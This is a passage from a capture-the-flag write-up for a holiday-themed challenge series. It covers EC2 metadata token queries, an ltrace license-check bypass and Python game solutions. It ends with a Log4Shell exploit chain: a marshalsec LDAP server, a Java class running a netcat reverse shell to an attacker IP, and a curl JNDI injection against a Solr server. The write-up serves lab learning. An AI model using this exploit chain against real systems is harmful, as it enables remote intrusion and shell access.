        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}

>> cat gettoken.sh 
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`

>> source gettoken.sh

>> echo $TOKEN
Uv38ByGCZU8WP18PmmIdcpVmx00QA3xNe7sEB9Hixkk=

>> curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region
np-north-1
```

## i) Strace Ltrace Retrace


Running ltrace on the executable, it seems like we need a `registration.json` file. We can do a `touch` command to create one.

```sh
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0
puts("Unable to open configuration fil"...Unable to open configuration file.
)               = 35
+++ exited (status 1) +++
```

```sh
>> touch registration.json
```

Now it is trying to get a line from the file. Let's input some dummy strings in it.

```sh
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55d011a57260
getline(0x7ffe456a5b10, 0x7ffe456a5b18, 0x55d011a57260, 0x7ffe456a5b18) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

```sh
echo -n "Hello" > registration.json
```

The first string needs to match `Registration`. Let's change it.

```
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55f6d1084260
getline(0x7ffd31270f60, 0x7ffd31270f68, 0x55f6d1084260, 0x7ffd31270f68) = 5
strstr("Hello", "Registration")                           = nil
getline(0x7ffd31270f60, 0x7ffd31270f68, 0x55f6d1084260, 0x7ffd31270f68) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

The next string needs to match `:`. Let's add it in.
```sh
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55f549d61260
getline(0x7ffeda67b2a0, 0x7ffeda67b2a8, 0x55f549d61260, 0x7ffeda67b2a8) = 13
strstr("Registration\n", "Registration")                  = "Registration\n"
strchr("Registration\n", ':')                             = nil
getline(0x7ffeda67b2a0, 0x7ffeda67b2a8, 0x55f549d61260, 0x7ffeda67b2a8) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

Then, we need to add in `True`.

```sh
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55db38093260
getline(0x7ffe6b6142a0, 0x7ffe6b6142a8, 0x55db38093260, 0x7ffe6b6142a8) = 14
strstr("Registration:\n", "Registration")                 = "Registration:\n"
strchr("Registration:\n", ':')                            = ":\n"
strstr(":\n", "True")                                     = nil
getline(0x7ffe6b6142a0, 0x7ffe6b6142a8, 0x55db38093260, 0x7ffe6b6142a8) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

```
>> nano registration.json

Registration:True
```

Running it again, we can make the candy!

```
>> ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x56167e931260
getline(0x7ffc17f3b1d0, 0x7ffc17f3b1d8, 0x56167e931260, 0x7ffc17f3b1d8) = 18
strstr("Registration:True\n", "Registration")             = "Registration:True\n"
strchr("Registration:True\n", ':')                        = ":True\n"
strstr(":True\n", "True")                                 = "True\n"
getline(0x7ffc17f3b1d0, 0x7ffc17f3b1d8, 0x56167e931260, 0x7ffc17f3b1d8) = -1
system("/bin/initialize_cotton_candy_sys"...


Launching...
```


## Logic Munchers

Cleared a game of Logic Chompers of Intermediate and Potpourri difficulty.


## Elf Code Python

We have to use python to clear 8 stages of the game to obtain the basic achievement. Below is my code for each stage.

```
Level 1
 
elf.moveLeft(10)
elf.moveUp(99)
 
Level 2
 
import elf, munchkins, levers, lollipops, yeeters, pits
all_lollipops = lollipops.get()
lollipop1 = all_lollipops[1]
lollipop0 = lollipops.get(0)
lollipop0 = all_lollipops[0]
elf.moveTo(lollipop1.position)
elf.moveTo(lollipop0.position)
elf.moveLeft(3)
elf.moveUp(99)
 
Level 3
 
import elf, munchkins, levers, lollipops, yeeters, pits
lever0 = levers.get(0)
elf.moveTo(lever0.position)
lever0.pull(lever0.data()+2)
elf.moveLeft(4)
elf.moveUp(99)
 
Level 4
 
import elf, munchkins, levers, lollipops, yeeters, pits
lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull("A String")
# Need more code below:
elf.moveUp(2)
lever3.pull(lever3.data())
elf.moveUp(2)
lever2.pull(lever2.data())
elf.moveUp(2)
lever1.pull(lever1.data())
elf.moveUp(2)
lever0.pull(lever0.data())
elf.moveUp(99)
 
Level 5
 
import elf, munchkins, levers, lollipops, yeeters, pits
lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull(lever4.data() + " concatenate")
# Need more code below:
elf.moveUp(2)
lever3.pull(not lever3.data())
elf.moveUp(2)
lever2.pull(lever2.data() + 1)
elf.moveUp(2)
lever1.pull(lever1.data() + [1])
elf.moveUp(2)
dict0 = lever0.data()
dict0.update( {'strkey' : "strvalue"})
lever0.pull(dict0)
elf.moveUp(99)
 
Level 6
 
import elf, munchkins, levers, lollipops, yeeters, pits
lever = levers.get(0)
data = lever.data()
if type(data) == bool:
    data = not data
elif type(data) == int:
    data = data * 2
elif type(data) == list:
    for i in len(data):
        data[i] = data[i] + 1
elif type(data) == str:
    data = data + data
elif type(data) == dict:
    data["a"] = data["a"] + 1
elf.moveUp(2)
lever.pull(data)
elf.moveUp(99)
 
Level 7
 
import elf, munchkins, levers, lollipops, yeeters, pits
for num in range(2): #not sure if number is right
    elf.moveLeft(1)
    elf.moveUp(11)
    elf.moveLeft(2)
    elf.moveDown(11)
    elf.moveLeft(1)
elf.moveLeft(2)
elf.moveUp(99)
 
Level 8
 
import elf, munchkins, levers, lollipops, yeeters, pits
all_lollipops = lollipops.get()
for lollipop in all_lollipops:
    elf.moveTo(lollipop.position)
lever = levers.get(0)
elf.moveTo(lever.position)
data = lever.data()
data.insert(0,"munchkins rule")
lever.pull(data)
elf.moveDown(3)
elf.moveTo({"x":2,"y":2})
 
Level 9 
 
import elf, munchkins, levers, lollipops, yeeters, pits
 
def func_to_pass_to_munchkin(list_of_lists):
    summ = 0
    for eachlist in list_of_lists:
        for j in eachlist:
            if type(j) == int:
                summ = summ + j
    return summ
 
all_levers = levers.get()
moves = [elf.moveDown, elf.moveLeft, elf.moveUp, elf.moveRight] * 2
for i, move in enumerate(moves):
    moves[i](i+1)
    if i < len(all_levers):
        all_levers[i].pull(i)
elf.moveUp(2)
elf.moveLeft(4)
munchkin = munchkins.get(0)
munchkin.answer(func_to_pass_to_munchkin)
elf.moveUp(99)
 
Level 10
 
import elf, munchkins, levers, lollipops, yeeters, pits
import time
muns = munchkins.get()
lols = lollipops.get()[::-1]
for index, mun in enumerate(muns):
    while True:
        if(abs(elf.position['x'] - mun.position['x']) == 6):
            elf.moveTo(lols[index].position)
            break
        time.sleep(0.05)
elf.moveLeft(6)
elf.moveUp(99)
```

I managed to cleared all 10 levels and got an extra achievement!


## Bonus! Red Log4Jack


We have a Marshelsec Java deserialization LDAP server on the server.

```sh
>> ls -la                    
total 44
drwxr-xr-x 1 troll troll 4096 Dec 28 01:39 .
drwxr-xr-x 1 root  root  4096 Dec 22 05:36 ..
-rw-r--r-- 1 troll troll  220 Nov 12  2014 .bash_logout 
-rwxr-xr-x 1 troll troll 3132 Dec 18 22:43 .bashrc
-rw-r--r-- 1 troll troll  675 Nov 12  2014 .profile
-rw-r--r-- 1 troll troll 5605 Dec 22 05:29 HELP.md
-rwxr-xr-x 1 troll troll  785 Dec 22 05:29 mainterm.sh
drwxr-xr-x 1 troll troll 4096 Dec 22 05:36 marshalsec
drwxr-xr-x 1 troll troll 4096 Dec 22 05:36 web

>> cd marshalsec/

>> marshalsec$ ls -la
total 41580
drwxr-xr-x 1 troll troll     4096 Dec 22 05:36 .
drwxr-xr-x 1 troll troll     4096 Dec 28 01:39 ..
-rw-r--r-- 1 troll troll 42566145 Dec 18 22:43 marshalsec-0.0.3-SNAPSHOT-all.jar
```

We start the LDAP server, specifying the `WEB SERVER IP` listening on port 8080, specifying the exploit Java class name as `#ReverseShell`. Prior to this, the web server have been set-up and listening for us. This web server will contain our exploit to be delivered to the vulnerable server. The LDAP Server will be listening on port 1389.

```sh
>> java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.2:8080/#ReverseShell"
Listening on 0.0.0.0:1389
```

Then, we change into the web directory and create the Java exploit code as shown below. We will specify our `NETCAT IP`, which will be set-up to listen on port 4444 for this exploit call.

```sh
>> cd web/

>> nano ReverseShell.java

public class ReverseShell {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc 172.17.0.2 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

We compile it using `javac`.

```sh
>> javac ReverseShell.java
```

We then use `curl` to deliver the exploit. The `LDAP SERVER IP` and port is specified. This will cause the vulnerable server to call our exploit, giving the shell back to us.

```
>> curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?test=$\{jndi:ldap://172.17.0.2:1389/ReverseShell\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}
}
```

We will see a callback on our port 4444 listener.


Obtaining the flag is trivial.

```sh
>> cd ~

>> ls -la
total 32
drwxr-x--- 1 solr solr 4096 Dec 28 02:04 .
drwxr-xr-x 1 root root 4096 Dec 22 05:36 ..
-rwxr-x--- 1 solr solr  220 Nov 12  2014 .bash_logout
-rwxr-x--- 1 solr solr 3515 Nov 12  2014 .bashrc
drwxr-xr-x 2 solr solr 4096 Dec 28 02:04 .oracle_jre_usage
-rwxr-x--- 1 solr solr  675 Nov 12  2014 .profile
-rwxr-x--- 1 solr solr   75 Dec 18 22:43 kringle.txt

>> cat kringle.txt
The solution to Log4shell is patching.
Sincerely,

Santa
```


## Bonus! Blue Log4Jack



We have to complete a of walkthrough of the difference between a vulnerable and patched server, tools to scan source code and web server logs.


